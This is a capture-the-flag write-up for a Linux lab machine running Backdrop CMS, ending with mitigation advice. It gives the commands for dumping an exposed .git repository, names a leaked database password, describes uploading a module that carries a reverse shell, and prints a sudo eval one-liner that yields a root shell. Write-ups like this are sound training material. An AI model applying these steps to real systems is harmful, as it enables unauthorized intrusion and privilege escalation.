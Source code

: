 # Dog

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

##  Summary

| Step | User / Access | Technique Used                | Result                                                                   |
| :--- | :------------ | :---------------------------- | :----------------------------------------------------------------------- |
| 1    | `N/A`         | Port Scanning                 | Found HTTP, SSH, and exposed `.git` repository.                          |
| 2    | `N/A`         | Git Dump                      | Extracted configuration and email of `tiffany`.                          |
| 3    | `tiffany`     | Database Credential Discovery | Discovered MySQL password in `settings.php`.                             |
| 4    | `tiffany`     | Admin Login                   | Logged into Backdrop CMS with credentials.                               |
| 5    | `www-data`    | Module Upload                 | Uploaded a custom module for reverse shell to obtain `www-data`.         |
| 6    | `johncusack`  | Credential Reuse              | Logged in via SSH using same database password.                          |
| 7    | `root`        | Sudo with Custom Tool         | Used vulnerable `bee` CLI tool to execute system commands and gain root. |

---

---

##  Initial Enumeration

### 1. **Nmap Scan**

```bash
nmap dog.htb -sV -A -Pn -T4
```

* Found open ports:

  * `22/tcp` — SSH (OpenSSH 8.2p1)
  * `80/tcp` — HTTP (Apache 2.4.41 with Backdrop CMS 1.20)
  * `.git` directory exposed!

---

##  Git Repository Leak

### 2. **Git Dump**

```bash
git-dumper http://dog.htb/.git/ ./dog-git
```

* Found user email in config:

  * `tiffany@dog.htb`

### 3. **Database Credentials**

Extracted from `settings.php`:

```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

* MySQL password: `BackDropJ2024DS2024`

---

##  Initial Access

### 4. **Login as Tiffany**

* Found Backdrop CMS login page.
* Credentials:

  * Username: `tiffany`
  * Password: `BackDropJ2024DS2024`
* Logged into the admin dashboard.

---

##  File Upload for Code Execution

### 5. **Module Upload**

* Found module installation feature.
* Downloaded official Backdrop CMS module.
* Modified module to include reverse shell payload:

  * Allowed formats: `.tar`, `.tgz`, `.gz`, `.bz2`
* Uploaded and enabled the malicious module.
* Triggered module functionality to execute reverse shell and obtain `www-data` access.

---

## Privilege Escalation to johncusack

### 6. **Database Password Reuse**

* Entered MySQL:

  ```bash
  mysql -u root -p
  # Password: BackDropJ2024DS2024
  ```
* Found a password hash for `johncusack`.
* Tried default passwords → succeeded using `BackDropJ2024DS2024`.

```bash
ssh johncusack@dog.htb
# Password: BackDropJ2024DS2024
```

---

##  Privilege Escalation to root

### 7. **Custom Command-Line Tool 'bee'**

```bash
sudo -l
```

Revealed:

```
(ALL : ALL) /usr/local/bin/bee
```

* Inspected `bee` code: Contains an `eval()` function and is intended to run from CLI only.

### 8. **Gaining Root**

* Started `bee` from `/var/www/html` as required.
* Executed arbitrary PHP code to get root shell:

  ```bash
  sudo /usr/local/bin/bee eval 'system("/bin/bash");'
  ```
* Captured `root.txt` from `/root/root.txt`.

---



##  Mitigation Advice

* Prevent `.git` directory exposure by properly configuring the web server.
* Never reuse database credentials as login passwords.
* Harden file upload functionality; restrict upload types and validate contents.
* Audit custom tools and remove eval-like unsafe functionality.
* Apply principle of least privilege to limit sudo permissions.

